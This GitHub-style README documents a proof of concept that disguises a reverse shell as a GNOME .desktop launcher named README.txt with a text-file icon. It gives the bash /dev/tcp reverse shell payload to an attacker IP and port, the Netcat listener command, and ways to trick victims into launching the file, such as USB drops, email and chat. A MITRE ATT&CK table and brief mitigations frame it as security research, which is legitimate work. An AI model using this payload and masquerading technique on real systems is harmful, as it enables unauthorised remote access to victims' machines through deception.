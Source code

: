 # Reverse Shell Delivery via `.desktop` Launcher


## Objective

- Disguise an executable reverse shell as a trusted, text-based document  
- Deliver the payload in a single file, with no external dependencies  
- Trigger a reverse shell back to a Kali Linux listener upon click

---

## Threat Model

### Attacker Goals

- Gain an interactive remote shell on the target system  
- Maintain stealth through social engineering and file disguise  
- Avoid detection by not requiring administrative privileges or file downloads  

### Assumptions

- The victim uses a GNOME-based Linux desktop (e.g., Ubuntu)
- The user is socially engineered into trusting and launching the disguised file  
- The target machine has outbound network access to the attacker's listener  

### Attacker Capabilities

- Ability to craft a malicious `.desktop` launcher with a reverse shell payload  
- Means of delivering the file to the target (e.g., via USB, phishing, shared folder)  
- Control over a listener machine to receive incoming connections (Kali with `nc`)  

### Victim Environment

- User operates under a non-restricted Linux desktop environment  
- No outbound firewall blocking the reverse shell connection  
- Default GNOME behavior is intact (trust prompt on `.desktop` files)

---

## MITRE ATT&CK Techniques

The following table maps the techniques used in this proof-of-concept to the [MITRE ATT&CK Framework](https://attack.mitre.org/):

| Tactic                  | Technique                                 | ID            | Description |
|-------------------------|-------------------------------------------|---------------|-------------|
| **Initial Access**      | User Execution: Malicious File            | [T1204.002](https://attack.mitre.org/techniques/T1204/002/) | The `.desktop` file is disguised as a benign `README.txt` to trick the user into executing it. |
| **Execution**           | Command and Scripting Interpreter: Bash   | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) | Bash is used to execute the reverse shell payload. |
| **Defense Evasion**     | Masquerading                              | [T1036](https://attack.mitre.org/techniques/T1036/) | The launcher file mimics a `.txt` document with a text icon and filename. |
| **Command and Control** | Application Layer Protocol: Custom TCP    | [T1071.001](https://attack.mitre.org/techniques/T1071/001/) | The reverse shell uses a raw TCP connection (via Netcat). |

---

### Limitations

- Requires user interaction (file must be trusted and launched)  
- The payload runs with the user’s privileges (not root)  
- Network-dependent: reverse shell fails if outbound traffic is blocked   

### Mitigations

- Disable `.desktop` file execution from user-writable directories  
- Enforce outbound firewall rules or use network segmentation  
- Improve user awareness through training against disguised file traps  

---

## Implementation Details

### File: `README.txt.desktop`

- **Filename shown to user:** `README.txt`  
- **Real extension:** `.desktop` (GNOME launcher)  
- **Icon used:** `text-x-generic` (appears like a text file)  
- **Trust method:** GNOME “Allow Launching” system  

### Payload Logic

```bash
bash -c 'bash -i >& /dev/tcp/192.168.1.14/6969 0>&1'
```
---

## Deployment and Execution

### Attacker Setup (Kali Linux)

The attacker prepares a Netcat listener on port `6969` to receive the reverse shell connection:

```bash
nc -lvnp 6969
```
### Victim Interaction

The attacker delivers the `README.txt.desktop` file to the target system. Possible delivery methods include:

- USB drop (removable media left in a shared area)
- File sharing platforms (e.g., shared folders, cloud drives)
- Email attachment (if not filtered)
- Direct messaging (Slack, Discord, etc.)

The user must:

1. Save the file to their Desktop.
2. **Right-click the file and select "Allow Launching"**. This is required to make the launcher executable in GNOME.
3. Double-click the file to run it.
4. Once launched, the payload executes silently and initiates a reverse shell to the attacker.

If the user does not manually allow launching, the file will remain inert and appear as plain text.


---

## Screenshots

- Disguised file on Desktop  
  ![Disguised File]([images/disguised-file.png])

- User manually selects “Allow Launching”  
  `![Allow Launching](images/allow-launching.png)`

- Reverse shell connection received  
  `![Shell Connected](images/shell-connected.png)`

---

## Conclusion

This proof-of-concept demonstrates how `.desktop` launcher files can be leveraged to gain remote shell access through basic user interaction and visual deception. Despite its simplicity, this method is capable of bypassing technical defenses when paired with effective social engineering.
